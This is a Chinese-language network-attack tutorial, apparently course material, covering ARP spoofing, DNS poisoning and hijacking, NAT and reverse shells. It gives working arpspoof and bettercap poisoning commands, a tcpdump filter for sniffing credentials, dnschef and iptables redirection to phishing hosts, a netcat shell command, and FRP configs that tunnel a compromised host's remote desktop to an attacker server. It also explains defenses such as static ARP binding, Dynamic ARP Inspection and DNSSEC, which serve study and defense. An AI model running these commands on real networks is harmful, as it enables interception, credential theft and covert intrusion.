







# 局域网与网络层穿透：ARP欺骗中间人、DNS劫持与NAT端口映射本质

---

## 0. 拒绝教科书废话：局域网为什么光有 IP 根本无法通信？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


大学教材在讲“局域网”时，往往列出一堆以太网帧格式（前导码、SFD、FCS 校验），却讲不透一个最核心的困惑：
**“既然每台电脑都有唯一的 IP 地址，为什么同一个办公室/局域网里，通信非得要搞一个 MAC 地址和 ARP 协议？”**

### 1. 通俗生活类比：大办公室里的“姓名与工号”
- **IP 地址 = 员工姓名（逻辑身份）**：由公司部门（DHCP 服务器 / 网络管理员）动态分配。今天张三在这个工位，明天张三可能被调去别的部门换了个新工位，甚至换了新名字。
- **MAC 地址 = 身份证号 / 物理工号（物理烙印）**：出厂时焊死在电脑物理网卡 ROM 里的 48 位硬件编号（如 `00:1A:2B:3C:4D:5E`），全球唯一且不可磨灭。
- **交换机（Switch）的“脸盲”本质**：
  局域网里的核心枢纽是**二层交换机**。二层交换机**根本看不懂 IP 地址**！它只维护一张简单的 **MAC 地址表（CAM 表）**：
  `1号网口 -> 对应 MAC_A`；`2号网口 -> 对应 MAC_B`。
  
当你告诉电脑：“我要发消息给 IP 是 `192.168.1.5` 的主机”时，操作系统内核的第一反应是崩溃的：
> *“物理网卡只认 MAC 地址，交换机只认网口对应的 MAC 地址，192.168.1.5 到底插在交换机的几号口？他的物理网卡 MAC 到底是多少？！”*

为了解决这个物理寻址问题，**ARP（Address Resolution Protocol，地址解析协议）** 诞生了。



---

## 1. ARP 协议的“致命盲信”与 ARP 欺骗中间人攻击（MITM）

### 1.1 ARP 解析过程与致命设计缺陷

1. **正常请求（大声广播喊话）**：
   主机 A 想要和 `192.168.1.20` 通信，但它的本地 **ARP 缓存表**（`arp -a`）里没有对应条目。
   主机 A 会发出一个广播帧（目标 MAC 为 `FF:FF:FF:FF:FF:FF`）：
   > *“谁是 192.168.1.20？请把你的 MAC 地址告诉我！”*
2. **正常应答（单播回复）**：
   局域网内所有电脑都收到了这条广播，其他电脑默默丢弃，唯独主机 B 举手回复单播：
   > *“我是 192.168.1.20，我的 MAC 地址是 BB:BB:BB:BB:BB:BB。”*
3. **缓存记录**：
   主机 A 收到回复，把映射存入本地 ARP 缓存表，并在后续的数据帧中填上该 MAC 地址。

#### 致命协议缺陷：无状态（Stateless）与毫无身份验证！
ARP 协议制定于上世纪 80 年代，设计者假定局域网内所有电脑都是诚实守信的君子。它具备两个致命漏洞：
- **谁发我都信（无验证机制）**：收到任何 ARP 应答，接收方从不检验发信人是谁，直接覆盖更新本地缓存！
- **不问也能答（主动投毒 / Gratuitous ARP）**：即便受害者**从来没有发出过 ARP 查询**，只要黑客向受害者主动推送一条 ARP 应答包（“喂，我是网关，我的 MAC 地址是攻击者MAC”），受害者的操作系统内核**就会毫无戒心、全盘接受地更新 ARP 表**！

---

### 1.2 双向 ARP 欺骗攻击原理（中间人拦截一切）

黑客想要窃听并篡改受害者电脑（`192.168.1.100`）与路由器网关（`192.168.1.1`）之间的所有通信流量，只需实施**双向欺骗**：



> [!WARNING] 致命翻车警告：忘记开启 `ip_forward` 的断网惨剧
> 如果攻击者没有在自己机器上开启 IP 转发（`sysctl -w net.ipv4.ip_forward=1`），攻击者操作系统内核收到目标 MAC 是自己、但目的 IP 不是自己的数据包时，**会默认直接丢弃该数据包**！
> 结果：受害者全网瘫痪断网，瞬间打草惊蛇，直接从“隐蔽中间人窃听”变成了“暴力拒绝服务攻击”。

---

### 1.3 武器化实战操作：嗅探与劫持凭证

#### 1. 开启内核数据包转发
```bash
# Linux 临时开启（内存生效）
sudo sysctl -w net.ipv4.ip_forward=1

# 或直接写入内核 proc 文件系统
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

#### 2. 使用 `arpspoof` 发起双向 ARP 投毒
```bash
# 终端窗口 1：告诉受害者 192.168.1.100，“我是网关 192.168.1.1”
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 终端窗口 2：告诉网关 192.168.1.1，“我是受害者 192.168.1.100”
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

#### 3. 现代全能中间人武器：`bettercap`
`bettercap` 是现代局域网渗透的标准工业级工具，自带 ARP 欺骗、DNS 欺骗和 HTTP 代理拦截：
```bash
# 启动 bettercap
sudo bettercap -iface eth0

# 在 bettercap 控制台内执行一键双向投毒与嗅探：
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
arp.spoof on
net.sniff on
```

#### 4. 抓包与凭据窃取：
当流量全部流经攻击者网卡时：
- 明文协议（HTTP、FTP、Telnet、POP3、DNS）中的明文密码、Cookie、敏感 URL 参数直接被 Wireshark / `tcpdump` 抓出原形：
  ```bash
  # 抓取包含 HTTP GET/POST 明文凭证的包
  sudo tcpdump -i eth0 -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12:2]&0xf0)>>2)) != 0)'
  ```
- **针对 HTTPS 的攻防现实**：
  若目标网站使用 HTTPS，攻击者虽然能劫持 TCP 流量，但看到的是加密的 TLS 密文。攻击者若强行用自签名证书做伪装解密，受害者浏览器会弹出刺眼的 **“证书不安全 / 隐私风险”** 警告；若目标开启了 HSTS（HTTP 严格传输安全），浏览器甚至直接阻断访问，彻底杜绝伪造证书。

---

### 1.4 防御对抗方案
1. **静态 ARP 绑定（单机硬抗）**：
   在关键服务器上手动绑定静态网关 MAC：
   ```bash
   # Windows 静态绑定
   netsh interface ipv4 add neighbors "以太网" 192.168.1.1 00-11-22-33-44-55
   # Linux 静态绑定
   sudo arp -s 192.168.1.1 00:11:22:33:44:55
   ```
2. **交换机级企业防御：动态 ARP 检查（DAI, Dynamic ARP Inspection）**：
   企业交换机开启 **DHCP Snooping**，在交换机内存中生成一张不可篡改的 `IP - MAC - 交换机物理端口` 租约绑定表。当交换机端口收到任何 ARP 应答时，硬件级比对该表格，只要发现伪造篡改，立刻在交换机层面物理丢弃并报警！

---

## 2. DNS 协议运作内幕与缓存投毒（DNS Poisoning）

### 2.1 递归查询全流程：一次域名的“寻亲之旅”

当你在浏览器输入 `ctf.target.com` 时，计算机并不是神仙，它必须通过 DNS 将人类可读的域名解析为 32 位 IP 地址。



---

### 2.2 协议脆弱性与“卡明斯基 DNS 缓存投毒”（Kaminsky Bug）

#### DNS 为什么极易被伪造？
1. **基于 UDP 53 端口**：无连接、不握手，谁都可以随意伪造源 IP 发送 UDP 报文！
2. **防伪验证极为薄弱**：
   递归解析器发出的 DNS 查询包中，仅靠两个字段来验证返回的响应是否属于刚才的请求：
   - **UDP 源端口（Source Port）**：16 位整数（范围 1024 ~ 65535）；
   - **事务 ID（Transaction ID / TxID）**：16 位随机整数（范围 0 ~ 65535）。
   如果黑客伪造的 DNS 响应中，`TxID` 和目的端口恰好与递归服务器发出的查询匹配，递归服务器就会**全盘接受假 IP，并存入其公共缓存！**

#### 经典难题：传统 DNS 欺骗为什么很难成功？
如果黑客直接抢答 `target.com`：
递归解析器发出一次请求后，真实的权威服务器可能在 20ms 内就回复了。黑客必须在这 20ms 的极短时间窗口内猜中 16 位的 TxID（只有 $1/65536$ 的极低概率）。一旦真实响应到达，解析器缓存了真实记录，未来几个小时（TTL 内）都不再发出查询，黑客便失去了攻击机会。

#### 卡明斯基（Dan Kaminsky）的神级破解思路：
卡明斯基在 2008 年发现了一个震撼全球互联网的漏洞逻辑——**利用不存在的随机子域名绕过 TTL 缓存锁定！**



---

### 2.3 实战局域网 DNS 劫持：`dnschef` 武器实操

在局域网渗透（结合上述 ARP 欺骗）中，最常用的杀招是拦截局域网内所有发往 53 端口的 DNS 请求，把目标企业的内部域名定向到攻击者的 Cobalt Strike / 钓鱼认证页面：

```bash
# 启动 dnschef：将所有对 test.corp.internal 的解析全部强制指向攻击者 IP 192.168.1.88
sudo dnschef --interface 192.168.1.88 \
             --fakeip 192.168.1.88 \
             --fakedomains "test.corp.internal,*.company.com" \
             --logfile dnschef.log
```
结合 `iptables` 流量重定向：
```bash
# 将经过本机的所有 UDP 53 端口流量强制重定向给本机的 dnschef 监听端口
sudo iptables -t nat -A PREROUTING -p udp --dport 53 -j REDIRECT --to-ports 53
```

---

## 3. NAT（网络地址转换）与内网穿透本质

### 3.1 为什么公网电脑无法直接主动连接内网电脑？

由于 IPv4 地址空间极其匮乏（只有约 43 亿个地址），互联网工程任务组（IETF）在 RFC 1918 中划定了三段**私有 IP 地址（私网地址）**：
- `10.0.0.0` ~ `10.255.255.255`（A 类私网，超大企业内网）
- `172.16.0.0` ~ `172.31.255.255`（B 类私网，大型网络/Docker 容器常用）
- `192.168.0.0` ~ `192.168.255.255`（C 类私网，家用路由器、小型局域网）

**公网核心路由器规定：绝对禁止路由私有 IP 数据包！**

#### NAPT（网络端口地址转换）工作真相：
几百台电脑连上同一台家庭/公司路由器，却只需要共享**一个公网出口 IP**（如 `120.25.10.88`）。路由器内部依靠一张动态 **NAT 映射转换表** 来维护：



---

### 3.2 攻防核心痛点：为什么必须使用“反弹 Shell”，而不是直接连进去？

这是每个初学者最容易犯的逻辑错误：
> *“我在受害者的内网电脑上通过漏洞执行了命令，开启了 `nc -lvp 4444 -e /bin/bash`（正向监听 Shell），为什么我在家里的电脑连不上受害者的 IP？！”*

#### 答案极其残酷：
1. 受害者的 IP 是 `192.168.1.100`，全球有几亿台电脑都叫 `192.168.1.100`，公网路由器根本不知道往哪送；
2. 即使你连接受害者的公网出口 IP `120.25.10.88:4444`，受害者外层的路由器收到这个由公网发起的 TCP SYN 数据包时，查询自己的 NAT 表：
   > *“NAT 表里根本没有任何内网主机曾经向这个端口发起过请求！这是一个未知的外部未经授权连接！”*
3. **路由器默认策略：直接丢弃（DROP）或回复 RST 拒绝！**（入站单向阻断）。

#### 反弹 Shell（Reverse Shell）的破局之美：


---

### 3.3 现代内网穿透工程化：FRP 隧道反向打通原理

在渗透测试进入内网后，如果想将受害者内网里的一台 Windows 远程桌面（`3389`）或者内网 Web 系统映射到黑客的公网服务器上，业界标准武器是 **FRP（Fast Reverse Proxy）**。

#### FRP 的底层工作机制：
1. **服务端（frps）**：运行在攻击者公网 VPS 上，监听控制端口（如 `7000`）；
2. **客户端（frpc）**：运行在受害者已拿下的内网机器上，**主动向公网 VPS 建立一条持久化的 TCP 控制连接通道（Control Connection）**；
3. 当攻击者访问公网 VPS 的特定映射端口（如 `6000`）时，VPS 上的 `frps` 通过已建立的内网长连接通道，通知内网的 `frpc`：“有人要连，立即向目标内网主机发起代理中继”；
4. 数据流通过内网主动建立的双向隧道源源不断回传，成功穿透 NAT 与防火墙！



#### 极简实战配置（穿透内网远程桌面）：
- **公网 VPS (`frps.ini`)**：
  ```ini
  [common]
  bind_port = 7000
  token = StrongSecretKey123
  ```
  启动服务端：`./frps -c ./frps.ini`

- **内网受控机器 (`frpc.ini`)**：
  ```ini
  [common]
  server_addr = 1.2.3.4
  server_port = 7000
  token = StrongSecretKey123

  [rdp_tunnel]
  type = tcp
  local_ip = 10.0.0.5
  local_port = 3389
  remote_port = 6000
  ```
  启动客户端：`./frpc -c ./frpc.ini`

配置生效后，攻击者在本地计算机运行 `mstsc`，直接连接 `1.2.3.4:6000`，即可如同在企业内网中一样无缝操控 `10.0.0.5` 的 Windows 远程桌面！

---

## 4. 攻防总结与思维模型速查

| 协议 / 机制 | 物理所在层级 | 致命协议脆弱点 | 黑客攻击手法 | 核心落地武器 | 终极防御对策 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **ARP 协议** | 数据链路层 (二层) | 无状态、不校验发信人身份、主动推包也全盘接受 | 局域网双向 ARP 投毒、中间人窃听、流量劫持 | `arpspoof`, `bettercap`, `mitmproxy` | 交换机 Dynamic ARP Inspection (DAI), 静态绑定 |
| **DNS 协议** | 应用层 (UDP 53) | 无连接不可靠传输、仅靠 16 位 TxID 防伪 | Kaminsky 缓存投毒、局域网 DNS 劫持、钓鱼定向 | `dnschef`, `Responder` | DNSSEC 数字签名、DoH (DNS over HTTPS)、DoT |
| **NAT 穿透** | 网络层 / 传输层 | 公网单向无法主动发起入站连接 | 反弹 Shell（由内主动向外出站）、持久反向隧道打通 | `frp`, `chisel`, `ngrok`, `nc` | 出站严格防火墙 ACL 策略、深层 DPI 协议特征检测 |
